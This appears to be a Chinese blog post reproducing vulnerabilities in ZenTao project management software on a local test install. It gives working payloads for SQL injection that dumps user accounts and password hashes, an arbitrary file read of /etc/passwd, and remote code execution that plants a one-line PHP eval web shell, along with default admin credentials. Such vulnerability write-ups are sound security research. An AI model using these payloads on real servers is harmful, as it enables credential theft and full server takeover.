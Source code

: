 ```yaml
---
title: 禅道全版本rce漏洞复现笔记
date: 2020-07-11 18:54:56
categories:
  - 漏洞复现
tags:
  - 漏洞
  - RCE
  - 漏洞复现
  - 禅道
  - zentao
author: Chace
---
```


# 禅道全版本rce漏洞复现笔记



## 漏洞说明

[禅道项目管理软件](https://www.zentao.net/)是一款国产的，基于LGPL协议，开源免费的项目管理软件，它集产品管理、项目管理、测试管理于一体，同时还包含了事务管理、组织管理等诸多功能，是中小型企业项目管理的首选，基于自主的PHP开发框架──ZenTaoPHP而成，第三方开发者或企业可非常方便的开发插件或者进行定制。
此次发现的漏洞正是ZenTaoPHP框架中的通用代码所造成的的，因此禅道几乎所有的项目都受此漏洞影响。本次漏洞复现以ZenTaoPMS.11.6版本作为演示

<!--more-->
## 环境搭建

下载链接：https://www.zentao.net/download/80153.html

解压安装后访问禅道主页 http://127.0.0.1/index.php

![](1.png)

查看当前版本 http://127.0.0.1:81/zentao/index.php?mode=getconfig

![](2.png)

至此环境搭建成功

## 漏洞复现
### 漏洞1 SQL注入

首先我们登录admin/CD87691043cs账户修改默认密码，创建一个普通Test0001/1qaz2wsx3edc!@#$用户并登录

>  Payload 

```
http://127.0.0.1/zentao/api-getModel-api-sql-sql=select+account,password+from+zt_user
```

Poc访问结果如下：

![](3.png)

### 漏洞2 文件读取

> Payload 

```
http://127.0.0.1/zentao/api-getModel-file-parseCSV-fileName=/etc/passwd
```

Poc访问结果如下：

![](4.png)

由于本地环境是window系统，所以没有回显，我们在xampp\zentao\module\api目录下新建一个test文件，读取

```
http://127.0.0.1/zentao/api-getModel-file-parseCSV-fileName=test
```

![](5.png)



### 漏洞3 RCE

利用上面的文件读取来执行命令

> Payload1

```http
POST /zentao/api-getModel-editor-save-filePath=1111 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: lang=zh-cn; device=desktop; theme=default; windowWidth=2426; windowHeight=796; zentaosid=vqruohhgn7qbhveakg04h9e267
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

fileContent=<?php phpinfo()?>
```

![](6.png)

先写入一个phpinfo，再读取访问

需要给物理路径加上一层才能包含成功

```
http://127.0.0.1/zentao/api-getModel-api-getMethod-filePath=1111/1
```

![](7.png)

> Payload2

```
fileContent=<?php system('whoami');?>
```

![](8.png)

![](9.png)


> Payload3(一句话)
```
fileContent=<?php file_put_contents('E://CMS/ZenTaoPMS/xampp/zentao/www/xxx.php.aaa', '<?php @eval($_REQUEST["x"]);?>');?>
```

![](10.png)

这里是window系统，所以写入绝对路径，绝对路径可以同样用`fileContent=<?php getcwd()?>`获取

```
http://127.0.0.1/zentao/xxx.php.aaa?x=phpinfo();
```

![](11.png)

*PS:最好使用linux系统安装，windows不要使用一键安装包安装，windows系统安装集成版的话根目录下的php代码好像做了限制，无法执行。*

## 参考链接

[【渗透笔记】禅道](https://www.jianshu.com/p/62bb128ecbdb)

[禅道全版本rce漏洞分析](http://foreversong.cn/archives/1410)